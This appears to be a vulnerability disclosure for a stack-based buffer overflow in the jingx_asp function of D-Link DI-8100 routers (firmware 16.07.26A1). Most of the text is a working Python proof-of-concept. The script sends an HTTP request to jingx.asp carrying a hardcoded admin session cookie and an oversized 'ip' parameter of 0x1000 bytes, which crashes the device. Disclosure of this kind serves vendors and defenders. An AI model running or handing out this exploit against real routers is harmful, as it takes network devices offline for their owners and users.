 
A critical stack-based buffer overflow vulnerability exists in the jingx_asp function of D-Link DI-8100 routers running firmware version 16.07.26A1. This vulnerability could allow remote attackers to cause a Denial of Service (DoS) condition by sending specially crafted HTTP requests to vulnerable devices.

![](./picture/1.png)

![](./picture/2.png)

```python
import requests
from pwn import *
import time

def exploit(target_ip):
    auth_cookie = "wys_userid=admin,wys_passwd=520E1BFD4CDE217D0A5824AE7EA60632"
    
    timestamp = int(time.time())
    attack_url = f"http://{target_ip}/jingx.asp?_{timestamp}"
    pay =  b"A"*0x1000
    
    payload = {
        "en": "1",  
        "fx":"1",
        "ip":pay,
        "outdev":"1",
    }
    
    headers = {
        "Host": target_ip,
        "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:135.0) Gecko/20100101 Firefox/135.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Accept-Encoding": "gzip, deflate, br",
        "Connection": "keep-alive",
        "Cookie": auth_cookie,
        "Upgrade-Insecure-Requests": "1",
        "Priority": "u=0, i"
    }
    
    try:
        response = requests.get(
            attack_url,
            params=payload,  
            headers=headers,
            timeout=5,
            verify=False
        )
        
        print(f"Response status code: {response.status_code}")
        print(f"Response length: {len(response.text)} bytes")
        
        print("\nResponse preview:")
        print(response.text[:500])
        
    except Exception as e:
        print(f"[!] The request failed: {str(e)}")

if __name__ == "__main__":
    TARGET_IP = "192.168.0.1"  
    exploit(TARGET_IP)
```

![](./picture/3.png)

![](./picture/4.png)

![](./picture/5.png)

![](./picture/6.png)

![](./picture/7.png)



